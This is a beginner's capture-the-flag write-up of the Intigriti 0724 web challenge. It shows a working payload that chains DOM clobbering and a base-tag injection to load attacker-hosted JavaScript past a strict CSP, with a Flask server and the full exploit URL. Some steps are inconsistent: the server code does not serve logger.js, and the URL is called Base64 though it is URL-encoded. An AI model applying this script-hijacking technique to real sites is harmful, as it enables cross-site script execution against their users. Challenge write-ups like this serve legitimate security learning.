 # Intigriti Challenge 0724 - Complete Write-up & Exploit

## Overview

This write-up explains how I solved the Intigriti Challenge 0724, a web security CTF involving bypassing a strict Content Security Policy (CSP) and exploiting DOM behavior to execute JavaScript in the victim’s browser.

The main goal was to bypass CSP restrictions, hijack a dynamically loaded script (`logger.js`), and run `alert(document.domain)` without any user interaction.

---

## Step-by-Step Exploit Breakdown

### 1. Understanding the Challenge

- The vulnerable web page sanitizes user input (`memo` parameter).
- If sanitization fails (due to malformed input), it loads a `logger.js` script dynamically.
- The page only enables “development mode” (`isDevelopment` flag) when running on `localhost`.
- CSP uses `'strict-dynamic'` with script hashes, restricting which scripts can run.

---

### 2. Bypassing `isDevelopment` with DOM Clobbering

Normally, the `isDevelopment` variable is `true` only on localhost, blocking our exploit on the challenge server.

I injected:

```html
<form id="isDevelopment">
```
This creates a global DOM element with the ID isDevelopment that overwrites the JavaScript variable of the same name with a truthy object, tricking the site into enabling dev mode regardless of origin.
### 3. Hijacking Script Loading with the <base> Tag
The site dynamically loads ./logger.js relative to the page.
I injected:
```html
<base href="http://127.0.0.1:8000/">
```
This tag changes the base URL for relative paths, making the browser load logger.js from my own server instead of the challenge’s domain.
### 4. Crafting Malformed Input to Trigger Sanitizer Error
By combining the two injections:
```html
<base href="http://127.0.0.1:8000/"><form id="isDevelopment">
```
the input breaks the sanitizer, causing it to throw an error and load logger.js dynamically.
### 5. Hosting Malicious logger.js on a Local Flask Server
To serve the malicious script, I wrote this Python Flask server:
```python
from flask import Flask, render_template_string

app = Flask(__name__)

@app.route('/')
def home():
    return render_template_string('''
    <!DOCTYPE html>
    <html>
    <head>
        <title>Document Domain Alert</title>
    </head>
    <body>
        <h1>Welcome to Flask</h1>
        <script>
            alert(document.domain);
        </script>
    </body>
    </html>
    ''')

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8000,debug=True)

```
- This serves a JavaScript file at http://127.0.0.1:8000/logger.js.
- The file contains alert(document.domain); which will pop up the domain of the vulnerable page.
### 6. Running the Local Server
To start the server via:
```pyhton
python3 -m http.server 8000
```
### 7. Full Exploit URL Base 64 encode.
```url
https://challenge-0724.intigriti.io/challenge/index.html?memo=%3Cbase%20href%3D%22http%3A%2F%2F127.0.0.1%3A8000%2F%22%3E%3Cform%20id%3D%22isDevelopment%22%3E

```
When visiting this URL:
- The sanitizer throws an error on the malformed input.
- Dev mode is enabled by the DOM clobbering.
- The page dynamically loads logger.js from my Flask server.
- The browser executes alert(document.domain); under the challenge domain context.

### 8. Result
An alert box pops up showing:
```go
challenge-0724.intigriti.io
```
I have Provided the screenshot.
This confirms the CSP bypass and successful remote script execution.

---

##  Personal Reflection

When I first saw this challenge, I felt overwhelmed. I had never dealt with advanced CSP, DOM clobbering, or dynamic script injection before. It all seemed complicated and out of reach.

But instead of giving up, I started breaking down each part — inch by inch. I studied how the base tag works, what CSP `'strict-dynamic'` really means, and how browsers treat malformed HTML. I spent hours experimenting, failing, tweaking, and finally — it clicked.

And when I saw that **`alert(document.domain)`** pop up...  
I froze.  
Then I smiled.  

> I didn’t just solve a CTF — I understood the web a little deeper.  
> I didn’t just hack a page — I hacked my own limitations.

This was my **first CTF** — and now, I’m not afraid of the next one. In fact, I can’t wait.

---

##  Final Words

> “You don't grow when things are easy. You grow when you face challenges that feel impossible — and solve them anyway.”  
> — Mohamed Sadik


### Lessons Learned
- DOM Clobbering: Overriding JavaScript variables with DOM elements.

- Base Tag Injection: Changing base URL to hijack relative resource loading.

- CSP Bypass: Leveraging 'strict-dynamic' to allow trusted dynamic scripts.

- Sanitizer Abuse: Causing errors to trigger fallback script loading.

- Hosting Malicious JS: Serving payloads to hijacked script URLs.

### Disclaimer
This write-up is for educational purposes and authorized (By Intigriti Challenge 0724) challenges only. Do not attempt unauthorized attacks.
### Contact
Feel free to reach out for questions or collaboration.
- Mail: mwmsadik@gmail.com
- Mohamed Sadik
- **Keep exploring. Keep learning. Break it to understand it.**
